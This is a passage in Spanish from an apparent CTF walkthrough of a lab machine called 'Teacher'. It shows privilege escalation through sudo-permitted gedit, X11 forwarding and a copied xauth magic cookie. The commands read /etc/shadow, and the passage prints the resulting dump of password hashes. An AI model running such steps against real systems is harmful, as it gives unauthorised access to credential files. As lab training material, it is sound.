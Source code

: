 ```
mrteacher@Teacher:~$ sudo /bin/gedit
Unable to init server: Could not connect: Connection refused

(gedit:1865): Gtk-WARNING **: 01:01:48.071: cannot open display:
```
Entonces ahora nos encontramos con un problema
buscando vemos que si ponemos un -X al conectarnos con ssh podemos ejecutar gedit desde la maquina victima pero viendolo en nuestra maquina atacante

```
❯ ssh mrteacher@10.0.2.24 -X 
```
Con esto ya podemos ejecutar gedit
ahora con xauth cambiamos nuestra magic-cookie de usuario por la de root

```
mrteacher@Teacher:~$ xauth list
Teacher/unix:10  MIT-MAGIC-COOKIE-1  489b48b972efd8355f4b68acec071afb
mrteacher@Teacher:~$ sudo xauth add Teacher/unix:10  MIT-MAGIC-COOKIE-1  489b48b972efd8355f4b68acec071afb
```

```
sudo gedit /etc/shadow

root:$y$j9T$JqgdH/Cy9gi7zhzh78n1e.$MKkEb1w15nYh.pwhVhFXtmE7NZcHvoiA60AZ8BMl9N1:19228:0:99999:7:::
daemon:*:19228:0:99999:7:::
bin:*:19228:0:99999:7:::
sys:*:19228:0:99999:7:::
sync:*:19228:0:99999:7:::
games:*:19228:0:99999:7:::
man:*:19228:0:99999:7:::
lp:*:19228:0:99999:7:::
mail:*:19228:0:99999:7:::
news:*:19228:0:99999:7:::
uucp:*:19228:0:99999:7:::
proxy:*:19228:0:99999:7:::
www-data:*:19228:0:99999:7:::
backup:*:19228:0:99999:7:::
list:*:19228:0:99999:7:::
irc:*:19228:0:99999:7:::
gnats:*:19228:0:99999:7:::
nobody:*:19228:0:99999:7:::
_apt:*:19228:0:99999:7:::
systemd-network:*:19228:0:99999:7:::
systemd-resolve:*:19228:0:99999:7:::
messagebus:*:19228:0:99999:7:::
avahi-autoipd:*:19228:0:99999:7:::
sshd:*:19228:0:99999:7:::
mrteacher:$y$j9T$gOGCuq/iq84ssczF0sQBS1$Z6OoF9kPK824CPeFsPv.A9JvDFF5DEK0wB/neVm.Gi8:19228:0:99999:7:::
systemd-timesync:!*:19228::::::
systemd-coredump:!*:19228::::::
```
